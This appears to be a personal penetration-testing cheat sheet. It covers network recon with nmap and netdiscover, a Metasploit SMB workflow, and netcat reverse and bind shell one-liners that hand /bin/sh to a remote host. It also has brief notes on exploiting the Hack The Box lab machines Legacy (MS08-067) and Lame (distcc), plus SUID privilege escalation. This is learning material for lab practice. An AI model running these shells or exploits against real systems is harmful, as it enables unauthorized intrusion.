 ### Host files from current dir 
` python -m SimpleHttpServer 8080 `
 
### python tools for network 
https://github.com/SecureAuthCorp/impacket

### Given a string, cut at delimiter ( space) and take 4th field as a result
cut -d " " -f 4  

## Recon

### Website tech identification
whatweb - Kali cli tool for identifying site ( better than most)

Wappalyzer - extension on browser

### netdiscover - arp in the network

netdiscover -r 192.168.88.0/24

### nmap
-sS - "Stealh scan" (not really , just syn, synack and RST - no sessions established) 

nmap -sS 192.168.88.128

nmap -T4 -p- -A

-p- - all ports  ( default is top 1000 ports) ;   -A - scan everything , version, OS, fingerprint

### SMB (and metasploit workflow)

msfconsole

search smb 

use auxiliary/scanner/smb/smb_version 

set RHOSTS 192.168.88.128

run

### nice to knows 
dpkg -i downloaded_package.deb  # install a package

### reverse shell ( just like pentestmonkey )
nc 192.168.1.1 4444 -e /bin/sh        --->   nc -lvp 4444

### bind shell 
nc 192.168.1.1 4444     ---->  nc -lvp 4444 -e /bin/sh

### Foxyproxy productivity 
use foxyproxy addon and add burpsuite settings to it. easy switching 


## Legacy
nmap -sS -p- 10.10.10.4 

nmap -A -p139,445,3389 10.10.10.4

nmap --script vuln -p445 10.10.10.4    ( looked at write-up for this to scan for vulns )

Find MS08-067(works) and  ms17-010(doesnt work)   Eternalblue.

search -f user.txt    , same for root. gg

learned from video :  getuid - windows whoami equivalent , sysinfo - obvious, help - meterpreter help ( lots of useful commands) ;
getsystem attempts to privesc ( might be a bit reckless)

## Lame
nmap --script vuln -p3632 10.10.10.3
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
distcc indicated as vulnerable, msf unix/misc/distcc_exec gives shell
find / -user root -perm -4000 -print 2>/dev/null      ( find binaries with root privs) 
elevate privileges with nmap ( should learn something new instead...)
https://pentestlab.blog/category/privilege-escalation/  

